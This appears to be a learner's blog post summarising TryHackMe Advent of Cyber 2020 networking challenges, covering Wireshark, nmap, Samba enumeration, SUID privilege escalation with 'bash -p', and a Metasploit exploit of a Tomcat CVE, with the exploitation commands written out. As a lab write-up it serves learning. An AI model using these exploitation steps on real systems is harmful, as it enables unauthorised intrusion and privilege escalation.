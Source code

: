 ```yaml
---
layout: post
title: Day 7 to 13 - Networking 
subtitle: Going forward w/ Networking
tags: [THM/25DaysXmas2020]
odate: 02-05-2022
fdate: 17-05-2022
pdate: 17-05-2022
---
```

Moving on with other topics in the event, from Web exploitation the limelight is on Networking.

Day 7  `Networking` \
Materials: Protocols, TCP/IP data transfer, 3-way handshake, ip address, wireshark - filtering packets w/ search terms \
Each packet was opened on wireshark and accordingly to each question, the search bar was used to filter out some packets to search for flags. GET method is seen with `HTTP.request.method == GET` filter command and packet details are read to get respective flag. This is the case from 1st and 2nd Packet. \
The final question asks about wishlist -> file? the hint says so. The third packet is opened to observe and a packet (no. 395) under HTTP protocol length 10388 bytes has a zip file inside it. Exporting the file under File > Export Objects - HTTP >  christmas.zip >> Unzipping it and viewing the file `elf_mcskidy_wishlist.txt`, the final flag is obtained.

Day 8  `Networking` \
Materials: nmap, nse \
ran nmap scans on target machine with options: -Pn to check all open or otherwise ports on machine, -A to enable OS detection for flags in question. Under the same command, the info provided includes `http-title: TBFC&#39;s Internal Blog` in port 80/tcp open -- providing the last flag answer, the type of website it is to be used for: Blog

Day 9  `Networking` \
Materials: FTP file server \
basic walkthrough to access FTP server. Later, breaking in into the server by executing reverse shell script (misusing a misconfig) using the file in the server. 

Day 10  `Networking` \
Materials: samba server \
Starting up the Attackbox VM machine to access the materials write-up. And followed through and ran script and respective command enum4linux with it's options at taregt machine to get respective number of shares and users involved on the server. logged into each share to check which had no passwd. The Share without passwd was found out: tbfc-santa, and files inside was listed to be seen -> to get the dir left by Elf for Santa.  

Day 11  `Networking` \
Materials: priv esc, priv-esc enumeration\
<!--%%Dirtyc0w is a famous linux kernel exploit - will end up crashing the system/unstable state (last resort)%%-->
<!--%%refer numerous materials/cheatsheet to support checklists for enumerating priv esc -- g0tmi1k, payatu, PayloadAllTheThings %%-->
<!--%% command to find all executable with SUID permissions set 
find / -perm -u=s -type f 2>/dev/null %%-->
<!--%% There are scripts that make the action approachable - like LinuEnum, linpeas %%-->
Priv Esc felt nice to play with, which was also what they warned when explaining it. After logging in as the provided user, enumeration had to be done where all the executables with SUID permission to be seen. When the find command to check all the exec bin commands which have super user or root user priviliges, there were many. \
And the instructions were clear on looking at GTFObins too to exploit the binary. the bash exec has a simple command to run as shown from [source](https://gtfobins.github.io/gtfobins/bash/#suid) : `bash -p`  \
which immediately gives root priv.

Day 12  `Networking`\
Materials: metasploit, web server exp - enumeration \
ran a nmap scan on remote host to get the data, on port 8080 there's a service running which is tomcat v9.0.17 which has a CVE called CVE-2019-0232. \
had to install metasploit to run the exploit on target machine \

search in metasploit with `search 2019-0232` and `use 0`: in the provided options 
and setting the config to: 
1. Running the metasploit on the set remote host (rhost) of target by providing the it's IP address
2. `set rhosts $targetIP` and set the lhost IP from wlp2s0 to tun0 (since connected via VPN)
3. `options` and `set targeturi cgi-bin/elfwhacker.bat` and `run` the exploit script here 
4. meterpreter is opened: `shell` to open the shell. It's a windows machine - respective powershell commands must be used to find the flag1.txt file 

Day 13  `Networking` \
Materials: guided CTF \
This was a straightforward guided CTF, where the commands were laid out and intentions clear. PS: I love John Hammond.

### Inference
Just the basics of all the networking concepts are laid out to know how to analyse, enumerate, scan and exploit a network. 

<!--%%comment%%-->
